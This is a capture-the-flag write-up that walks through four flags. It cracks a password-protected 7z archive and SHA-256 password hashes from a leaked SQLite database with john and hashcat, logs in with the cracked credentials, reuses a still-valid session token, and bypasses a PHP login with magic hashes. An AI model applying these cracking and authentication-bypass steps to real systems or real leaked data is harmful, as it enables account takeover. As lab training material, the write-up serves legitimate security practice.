


# Solution

## Flag 1

We have an 7z archive which is password protected. We can list the content, which shows the client application in python and a SQLite database:

```shell
7z l data_leaked.7z
```

Since we do not have the password, we can try to crack the password. Using [John utility scripts](https://github.com/openwall/john/tree/bleeding-jumbo/run), more precisely [7z2john.pl](https://github.com/openwall/john/blob/bleeding-jumbo/run/7z2john.pl).

```shell
perl 7z2john.pl data_leaked.7z
```



Giving this hash:

```
$7z$2$19$0$$8$ff3bfb371767776a0000000000000000$432116985$1200$1200$ba2193fef65c40022ad48c496cee1768ff6dda24ffd58ab6131b3326525f2e5e69cd45125f8fe33ca968bf3f272d38907d33a938fdf1265389b07fbbc74a874db191dec52bda22ddf99c3200ce46ca7ec737d87426c68ea79f78eb1b7362bd0c60e202ecb743d06f5ed70b6ffeab8c0cdde9219dede14d86dabbe2eb92931b0b99231a33c1514fe7128fc0810354073d9213665f0657a44ad8a446d1703d1842504e810612347dddcc31d565c3dbe6ae03fdf4c93df3fbbea80ac392720eb267798d97f9e51bb69e6bc8f8e405c7b23f32a0450f883336072b3d166bcd0ea5a05c46d7cdcee4628e3b7cca6b1846f8e101fcd38d5d282d75f6085198560095f7ec60ad2b0d0f9b161a03d5782e0096d586f0dc82eecc35c242e515b774e5772c42638eea9e9dfeae1850fb77100a7e0db91d1893e8a631e925fde16b964c4c2cb44932ab3e5b439acf5f80056d647f09c13a6e5f928cbb8219d67603c69837f1806eb48b636e8fa233c3c14b9a1a3209cd1e0933d859c4212babbf0c2845002d14a2d31d52e572054e8a3b4907bfadf0efc78f91ea1acc21bcb500387ea19057e20f7fee7d2b326dbf1958e8127940f7ce228b4c6d7d5128a743d718a2b6e9444a64ec5a24b0f845594b32fb2669765c2e6fce745c203fae111a041bf03b36c83e57eaa7b0c5c29e38ab6a95a37d8a0992de71847f8cc271b653aa80b9521d5e5b9c819d5c5ae543630d269e2184397bd4c12909da05b12e0a2369def02b3bddd9a02ba9e50f0fc8a190af5cc57b62edb97d04038725c42cf782213ef6e6394753ee1a55ed3c48718ade691292fab79d50ed8913733940166ad5bbcf7d1d0b78cf6ac2d27d8d2d1dfc6ce37a0951897c247951c894210e91d0e7a1c9be5ed9bb7a647f1d4904b82d5ee61066b1626e0c5a2f1b5aaa90a74e8a171a5af36ca3be6bfeb5ec7c0340c959aa967499da83e789b28f05f8715224752b2623fbf71b1e1139aa9857c4e09683ca992e9509b6b2c93e4238859d2ce6e63d409860c7463bf3c8094fb7868ef5bb14758af682463410a4b6cb4933914163f96ce4af70a99af98661b4dca3e33f78b821a9419229c1fd205faf6d6507a557cabf175baa27362ca153576f25e9fd25a31559a70836d822e8dfd13f6126ac9f1c6da8ba7a9302b07399a4ad9310e4bb427e155df20d86df6fbc62d8fd73675e33bae9bf67bcdc4f37e4d92de561dffed737579c51da3c68874037db7c0f6c52cb1edd9c2de83ffd263b2d697595bb4ff7318c912c044e1daa28088056e9a13bc42d7d9115c2078eb8dd69b5fa18216d4ebc6f1c73a56251ef3fa944fe68b04d11f80e65ab890080b1c112fc5f4337b357cb5ea905077a05293c05827bc75caec972cae46975e47417bbd5449a4ba8dd1f730f13c446e2b6fd2183a5927869fe7a1344d90b3b5a835acde729d19ef7528efc43f4751a2b0c2c3d9f720a57cc5fd645f3204d7a3007cc6d95833dbdb240c0ab435f65d5f187417017247861179f7525ad26bc70947c17aac3da425db3596866b128f87bbead529b21aab459bf4422c4cf7991fa9103be2602738f3065d268e2c52563e47a5cea5343008f221097db4ae6737f58794643e48e3c30b2285bf74a415759b65e718e940695afdcca58d624a1c7fd290a287caf66b5e0a1da3fc20ee29f89538d$1099$0a
```

We can then crack it using john. Since it is a slow hash to crack, hopefully it isn't to far in rockyou.

```shell
john --format=7z --wordlist=rockyou.txt hash.txt
```



Now we can extract the archive using the password `ramone`:

```shell
7z x data_leaked
```

Flag: flag-ramone

## Flag 2

We can read the database using something like DBeaver. We can export the hashes from the database.

```python
import sqlite3

def read_users():
    db = sqlite3.connect("thrill-sync.db")
    sql = "SELECT password FROM users"
    hashes = db.execute(sql).fetchall()
    db.close()
    with open("hash.txt", "w") as f:
        f.write("\n".join([hash[0] for hash in hashes]))

read_users()
```

Identify the hashes:

```shell
head -n 1 hash.txt  | hashid - -m
```

It looks like sha256.

Then try to crack the hash using hashcat and rockyou.txt.

```shell
hashcat -a 0 -m 1400 hash.txt rockyou.txt

cac5fe440a4ee9d61387f8f39c5c76c61c1393c886490bb64e2249fc862944de:425kailua
```


Then we can connect with `ZoeWright:425kailua` and get the flag using the client or `solve_2.py`.

## Flag 3

We can see that the server uses session token to keep track of a logged session. There might be a token that is still valid. Using `solve_3.py`, we try every token and get a hit with d1a76d92c8249969fe955df686e4366ecf01afc5d17107b8367478f447b11023 which is still valid.

## Flag 4

Looking through the hashes and knowing from the challenge description that the server is in PHP, we can see EthanClark hash is a magic hash. If the server uses a loose comparaison between hashes, any password that hash to a magic hash will be valid to login. See https://github.com/spaze/hashes.

This repo has example of magic hash for sha256: https://github.com/spaze/hashes/blob/master/sha256.md

We can then use `solve_4.py` to get the last flag.
